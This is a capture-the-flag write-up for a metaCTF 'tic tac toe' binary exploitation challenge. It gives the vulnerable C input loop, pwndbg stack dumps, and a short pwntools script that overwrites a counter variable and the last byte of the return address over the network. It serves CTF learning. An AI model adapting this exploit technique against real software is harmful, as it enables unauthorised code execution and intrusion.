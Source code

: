 ```yaml
---
title: "[pwn] tic tac toe"
categories:
  - CTF
tags:
  - pwn
  - overwiteLastByteRet
---
```


[tic tac toe [metaCTF]](https://github.com/v13td0x/Q4_21/raw/main/meta/pwn/Tic%20tac%20toe/tic_tac_toe_Release.tar.gz)

```apl
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

```c
int read_board(){
	char board[3][3]; // $sbp-0xa
	char counter = 0; // $rbp-0x1

	//read the board in
	while (counter < 9){
		while(1){
			read(0, (char*)board+counter++, 1);

			if (*((char *)board+counter-1) == '\n')
			{
				counter--;
				continue;
			}
			if (*((char*)board + counter-1) == 'o' || *((char*)board + counter-1) == 'O' ||*((char*)board + counter-1) == '0' || *((char*)board + counter-1) == 'x' || *((char*)board + counter-1) == 'X'){
				break;
			}
			puts("Bad Character, try again");
		}
	}
// if last byte was an x, X, o, O, or 0 program will check counter<9,
// otherwise continue read from input and write in stack at board[counter]
```

```bash
02:0010│ rsp     0x7fff2059f840 ◂— 0x767655b24517f0a0
03:0018│         0x7fff2059f848 ◂— 0x1376767676767676
04:0020│ rbp     0x7fff2059f850 —▸ 0x7fff2059f860 ◂— 0x0
05:0028│ rax rsi 0x7fff2059f858 —▸ 0x55b24517f645 (main+60) # ret
pwndbg> x $rbp-0x1
0x7fff2059f84f: 0x007fff2059f86013 # counter = 13
pwndbg> x/x $rbp+8
0x7fff3d59caf8: 0x45 #last byte of ret addr
```

your strategy is over last byte of ret addr 0x45→ `0x4f`, we will overwrite counter var = 0x12++. Because `board[counter=0x13]` = last byte of ret addr (0xa bytes of board + 8 byte rbp + 1 last byte ret). 

> Remember: we need 9 byte `not` in {x, X, 0, o, O} to not check counter and '\n' to increase counter var. Due to overwrite `counter` var
> 

```python
# xpl.py
from pwn import *

p = remote("host.cg21.metaproblems.com", 3120)
p.send(b'v'*9 + b'\x12\x4f')
p.stream()
```

